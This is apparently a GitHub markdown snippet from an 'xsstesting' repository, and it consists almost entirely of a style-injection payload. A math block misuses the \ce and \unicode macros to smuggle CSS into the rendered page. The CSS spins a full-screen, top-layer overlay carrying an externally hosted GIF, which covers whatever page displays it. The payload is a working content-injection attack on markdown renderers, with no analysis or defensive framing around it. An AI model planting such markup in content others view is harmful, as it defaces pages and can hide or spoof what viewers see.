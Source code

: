     <style>
        @keyframes spin {
            0% {
                transform: rotate(0deg);
            }
            100% {
                transform: rotate(360deg);
            }
        }
    </style>
```math
\ce{$&#x5C;unicode[ animation: spin 10s linear infinite; pointer-events: none; position: fixed; top: 0; left: 0; height: 100vh; width: 100vw; z-index: 9999; object-fit: cover; background-size: cover; background-position: cover; width: 130vw; opacity: 1; background: url('https://github.com/freakiestfreak/xsstesting/blob/main/pfp.gif?raw=true');]{x0000}$}
```
